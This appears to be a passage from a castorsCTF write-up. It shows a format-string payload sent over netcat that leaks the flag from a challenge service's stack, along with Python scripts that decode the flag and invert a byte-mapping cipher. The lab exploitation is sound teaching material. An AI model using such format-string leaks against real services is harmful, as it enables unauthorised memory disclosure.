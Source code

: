 ## babyfmt
Simple format string

Spammed some `%lx` and after decoding the hex I could see the flag, narrowed down to the `%lx`'s I needed.
```c
nc chals20.cybercastors.com 14426

Hello everyone, this is babyfmt! say something: %8$lx%9$lx%10$lx%11$lx%12$lx%13$lx
%8$lx%9$lx%10$lx%11$lx%12$lx%13$lx
4373726f747361635f6b34336c7b46543468745f6b34336c74346d7230665f745f366e317274735f7d6b34336c```

decoded the hex string, however the flag was divided into 8 char indices which had to be reversed, which I did with python.

```python
>>> s = "Csrotsac_k43l{FT4ht_k43lt4mr0f_t_6n1rts_}k43l"
>>> "".join([s[i:i+8][::-1] for i in range(0,len(s),8)])
'castorsCTF{l34k_l34k_th4t_f0rm4t_str1n6_l34k}'
```

# Rev

## Reverse-me
The binary is reading a flag.txt file, applies some mapping function on each of the bytes, and dump them to the screen. Then it asks us to input the flag for verification.

We solved this by just encrypting A-Z, a-z, 0-9 etc. and creating a mapping table for it.

```python
lookup = {e2:e1 for e1, e2 in zip("abcdefghijklmnopqrstuvwx", "6d6e6f707172737475767778797a6162636465666768696a".decode('hex'))}
for e1, e2 in zip("ABCDEFGHIJKLMNOPQRSTUVWX", "434445464748494a4b4c4d4e4f505152535455565758595a".decode('hex')):
    assert not e2 in lookup
    lookup[e2] = e1
for e1, e2 in zip("0123456789", "32333435363738393a3b".decode('hex')):
    assert not e2 in lookup
    lookup[e2] = e1


flag = "64 35 68 35 64 37 33 7a 38 6b 33 37 6b 72 67 7a".replace(" ","").decode('hex')
print(''.join(lookup.get(e,'_') for e in flag))
```

`castorsCTF{r3v3r51n6_15_fun}`
## Mapping
Very similar to the Reverse-me challenge, except it's golang, and the output is base64-encoded before comparing it to the scrambled flag. I input the entire ASCII alphanum charset, set a breakpoint in the base64-encoding function, and read out the mapping table that was given as an argument to it. Then I extract the encoded flag used for comparison, decoded it and undid the mapping.
